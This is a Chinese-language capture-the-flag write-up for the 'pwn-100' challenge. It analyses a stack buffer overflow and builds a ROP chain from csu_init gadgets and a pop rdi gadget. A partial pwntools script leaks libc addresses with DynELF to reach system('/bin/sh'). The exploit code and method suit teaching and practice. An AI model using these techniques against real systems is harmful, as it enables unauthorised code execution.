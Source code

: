 ![image-20231118194333034](C:/Users/Anne/AppData/Roaming/Typora/typora-user-images/image-20231118194333034.png)

输入250个字符后程序报了段错误，程序终止。在sub_40063D()函数中v1传给了a1，数值200传给了a2，从标准输入中读取200字节赋值为a1指向的内存地址。但是v1到ebp只有64字节（0x40）大小，存在栈溢出问题。

![image-20231118200554506](C:/Users/Anne/AppData/Roaming/Typora/typora-user-images/image-20231118200554506.png)

因为该程序没有开启栈保护所以会直接溢出，又因为开启了NX保护所以不能直接执行shellcode。这里利用漏洞采用的是在没有提供libc版本的情况下泄露libc中函数system的地址，需要通过将`"/bin/sh\x00"`写入到程序的内存中，然后直接执行`system("/bin/sh")`。

#### 求解

用到寄存器rdi的指令地址为0x400763，程序main()函数的起始地址为0x4006b8.

![image-20231118202339654](C:/Users/Anne/AppData/Roaming/Typora/typora-user-images/image-20231118202339654.png)

![image-20231118202519639](C:/Users/Anne/AppData/Roaming/Typora/typora-user-images/image-20231118202519639.png)

0x601050 和 0x601058地址起始处分别存放了stdin stdout，覆盖此处的地址会在导致返回main函数时出错，因为main函数引用了这两个变量，再根据可写入地址判断可以使用0x601060作为写入地址。

![image-20231118213433794](C:/Users/Anne/AppData/Roaming/Typora/typora-user-images/image-20231118213433794.png)

![image-20231118203251014](C:/Users/Anne/AppData/Roaming/Typora/typora-user-images/image-20231118203251014.png)

在init()操作中，可以看到pop操作代码地址从0x40075a开始，movcall操作的地址从0x400740开始。从0x40075a代码我们可以控制rbx,rbp,r12,r13,r14和r15的值，随后利用0x400740的代码我们可以将r13的值赋值给rdx，r14的值赋值给rsi，r15的值赋值给edi，随后调用call qword ptr [r12+rbx\*8]。此时只要将rbx的值赋值为0，再构造数据控制pc，就可以调用read()函数了。执行完call qword ptr [r12+rbx\*8]之后，程序会对rbx+=1，然后对比rbp和rbx的值，如果相等就会继续向下执行并ret到我们想要继续执行的地址。所以为了让rbp和rbx的值相等，我们可以将rbp的值设置为1，因为之前已经将rbx的值设置为0了。

![img](https://img-blog.csdnimg.cn/9572b4cc925e4a7ab5973a4765d3c7ef.jpeg)

![image-20231118214013607](C:/Users/Anne/AppData/Roaming/Typora/typora-user-images/image-20231118214013607.png)

利用read()输出read在内存中的地址。因为gadget是call qword ptr [r12+rbx\*8]，所以我们应该使用read.got的地址而不是read.plt的地址。并且为了返回到原程序中，重复利用buffer overflow的漏洞，我们需要继续覆盖栈上的数据，直到把返回值覆盖成目标函数的main函数为止。

求解过程代码如下：

```python
from pwn import *

p = process("./pwn-100")
elf = ELF("./pwn-100")

main_addr = 0x4006B8
pop_rdi_addr = 0x400763
puts_addr = elf.symbols["puts"]

def leak(addr):
    payload = cyclic(0x40 + 0x8)
    payload += p64(pop_rdi_addr) + p64(addr) + p64(puts_addr)
    payload += p64(main_addr)
    payload = payload.ljust(200, b'6')
    p.send(payload)
    p.recvuntil("bye~\n")
    data = p.recv()
 
    data = data[:-1]
    if not data:
        data = b"\x00"
    data = data[:8]
    print("puts addr: ", data)
    return data

d = DynELF(leak, elf=ELF("./pwn-100"))
```